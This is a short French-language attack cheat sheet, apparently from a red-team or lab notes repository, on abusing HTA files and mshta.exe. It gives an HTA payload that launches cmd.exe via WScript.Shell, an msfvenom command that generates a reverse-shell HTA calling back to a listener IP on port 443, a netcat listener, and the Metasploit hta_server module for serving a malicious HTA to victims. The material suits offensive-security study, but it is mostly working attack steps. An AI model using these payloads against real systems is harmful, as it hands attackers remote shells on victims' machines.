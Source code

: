 HTA (Application HTML)  qui sont  des pages `HTML dynamiques` contenant JScript et VBScript. 

L'outil `mshta.exe` LOLBINS (Living-of-the-land Binaries)  est utilisé pour exécuter les fichiers HTA . Il peut être exécuté seul ou automatiquement depuis Internet Explorer.

Soit le fichier `index.hta` notre charge utile pour exécuter  `cmd.exe`

```html
<html>
	<head>
		<script>
			var c = 'cmd.exe'
			new ActiveXObject('WScript.Shell').Run(c);
		</script>
	</head>
	<body>
		<script>
			self.close();
		</script>
	</body>
</html>
```

---
**HTA Reverse Connection**
Nous pouvons créer une charge utile de shell inversé avec `msfvenom`. Une fois que la victime visite l’URL malveillante et clique sur Exécuter, nous récupérons la connexion.

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o payload.hta
```

```sh
nc -nlvp 443
```

---
**Malicious HTA via Metasploit**

```c
use exploit/windows/misc/hta_server
```

Sur la machine victime, une fois que nous visitons le fichier HTA malveillant fourni comme URL par Metasploit , nous devrions recevoir une connexion inversée.

